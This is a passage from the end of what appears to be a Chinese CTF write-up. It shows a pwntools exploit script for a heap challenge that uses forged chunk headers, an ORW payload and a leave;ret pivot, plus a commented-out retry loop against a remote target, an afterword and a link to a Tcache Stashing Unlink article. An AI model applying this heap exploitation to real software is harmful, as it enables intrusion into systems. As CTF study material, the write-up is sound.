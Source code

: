 ```python
    add(0,3,'a')
    add(0,4,'b')
    add(1,4,'a')

    delete(0)
    add(1,3,'a')
    add(1,4,'b')

    pl = 'a'*0x300
    pl += p64(0) + p64(0x101)
    pl += p64(heap_addr + 0x1F70)
    pl += p64(heap_addr - 0x1010 + 0x800 - 0x10)
    edit(0,pl)
    add(2,0xF0,orw)
    sla('Your input:','666')
    pl = 'a'*0x80
    pl += p64(orw_addr - 0x8)
    pl += p64(leave_ret)
    sla(pl)
    #gdb.attach(p)
    itr()

'''
i = 0
while 1:
    i += 1
    log.warn(str(i))
    try:  
        pwn()
    except Exception:
        p.close()
        if(local == 1):
            p = process(binary)
        else:
            p = remote(ip,port)
        continue
'''

if __name__ == '__main__':
    pwn()
```

0x05 后记
=======

有了高版本unlink的利用方法。以后做题也有个思路。

0x06 参考链接
=========

[Tcache Stashing Unlink Attack利用思路 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/198173)

